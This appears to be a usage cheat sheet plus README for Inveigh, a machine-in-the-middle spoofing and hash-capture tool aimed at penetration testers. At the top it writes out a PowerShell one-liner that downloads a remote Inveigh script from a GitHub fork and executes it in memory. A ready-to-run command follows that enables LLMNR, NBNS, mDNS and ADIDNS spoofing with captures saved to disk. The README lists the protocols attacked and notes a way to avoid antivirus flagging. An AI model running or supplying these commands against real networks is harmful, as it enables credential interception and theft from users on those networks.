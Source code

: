 ```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/Inveigh/master/Inveigh.ps1')
```

```
Invoke-Inveigh -ConsoleOutput Y -StatusOutput Y  -ADIDNS COMBO -NBNS Y -ADIDNSThreshold 2 -FileOutput Y -FileOutputDirectory "C:\DIRECTORY" -LLMNR Y -mDNS Y
```

Clear-Inveigh – clear the $inveigh hashtable   
Get-Inveigh – get data from the $inveigh hashtable   
Stop-Inveigh – stop all running Inveigh modules   
Watch-Inveigh – enable real time console output   

# Inveigh

Inveigh is a cross-platform .NET IPv4/IPv6 machine-in-the-middle tool for penetration testers. This repo contains the primary C# version as well as the legacy PowerShell version.  

## Overview

Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific isteners/sockets. The packet sniffing method, which was the basis for the original Powershell version of this tool, has the following advantages:

* SMB NTLM challenge/response captures over the Window's SMB service
* Fewer visible port binds on the host system

The primary disadvantage is the required elevated access.

On current versions of Windows, the default running UDP services allow port reuse. Therefore, packet sniffing no longer provides an advantage for getting around in-use UDP ports. Inveigh's UDP listeners are all configured to take advantage of port reuse.

### Version Descriptions
* **PowerShell Inveigh** - original version developed over many years. For now at least, this version (1.506) will go without additional updates. Documentation can be found [here](https://github.com/Kevin-Robertson/Inveigh/wiki).
* **C# Inveigh (aka InveighZero)** - original C# POC code combined with a C# port of most of the Powershell version's code. This version has now been rebuilt for C# and is taking over as the primary version. For now, the InveighZero will continue to be udated with just the latest C# version as a download alternative to avoid AV flagging the Powershell code.

### Features

The C# version of Inveigh contains attacks for the following protocols:

* [LLMNR](#LLMNR) [packet sniffer | listener]
* [DNS](#DNS) [packet sniffer | listener]
* [mDNS](#mDNS) [packet sniffer | listener]
* [NBNS](#NBNS) [packet sniffer | listener]
* [DHCPv6](#DHCPv6) [packet sniffer | listener]
* [ICMPv6](#ICMPv6) [privileged raw socket]
* [HTTP](#HTTP) [listener]
* [HTTPS](#HTTPS) [listener]
* [SMB](#SMB) [packet sniffer | listener]
* [LDAP](#LDAP) [listener]
* [WebDAV](#WebDAV) [listener]
* [Proxy Auth](#Proxy) [listener]
 